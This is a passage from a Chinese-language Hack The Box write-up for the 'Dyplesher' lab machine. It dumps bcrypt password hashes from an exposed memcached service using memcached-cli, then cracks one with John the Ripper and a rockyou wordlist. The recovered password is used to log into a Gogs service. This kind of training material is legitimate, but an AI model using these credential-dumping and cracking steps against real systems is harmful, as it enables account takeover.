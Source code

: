 得到3个加密后的密码：

```
minato:$2a$10$5SAkMNF9fPNamlpWr.ikte0rHInGcU54tvazErpuwGPFePuI1DCJa
felamos:$2y$12$c3SrJLybUEOYmpu1RVrJZuPyzE5sxGeM0ZChDhl8MlczVrxiA3pQK
yuntao:$2a$10$zXNCus.UXtiuJE5e6lsQGefnAH3zipl.FRNySz5C4RjitiwUoalS
```

另一种更方便的方式是使用`memcached-cli`：

```
apt install npm
npm install -g memcached-cli
```

```
╭─kali@kali ~ 
╰─$ memcached-cli felamos:zxcvbnm@dyplesher.htb:11211

dyplesher.htb:11211&gt; get username
MinatoTW
felamos
yuntao

dyplesher.htb:11211&gt; get password
$2a$10$5SAkMNF9fPNamlpWr.ikte0rHInGcU54tvazErpuwGPFePuI1DCJa
$2y$12$c3SrJLybUEOYmpu1RVrJZuPyzE5sxGeM0ZChDhl8MlczVrxiA3pQK
$2a$10$zXNCus.UXtiuJE5e6lsQGefnAH3zipl.FRNySz5C4RjitiwUoalS
```

丢到john里解密，得到用户felamos的密码：

```
╭─kali@kali ~ 
╰─$ john hashes --wordlist=/root/htb-tools/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])
Loaded hashes with cost 1 (iteration count) varying from 1024 to 4096
Press 'q' or Ctrl-C to abort, almost any other key for status
mommy1           (felamos)
```

用密码`[felamos@dyplesher.htb](mailto:felamos@dyplesher.htb) : mommy1`尝试登录 [http://dyplesher.htb/login](http://dyplesher.htb/login) ，登录失败，再尝试登录gogs服务 [http://dyplesher.htb:3000/user/login?redirect_to=](http://dyplesher.htb:3000/user/login?redirect_to=) 登录成功。登录之后看到felamos用户是拥有两个Repositories，然后还提交了commit：

[![](https://p2.ssl.qhimg.com/t0184ffd3a6569da671.png)](https://p2.ssl.qhimg.com/t0184ffd3a6569da671.png)

在名为gitlab的仓库里发现了felamos发布的一个releases：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01d6d030cdaf088730.png)

### <a class="reference-link" name="Git%20Bundle"></a>Git Bundle
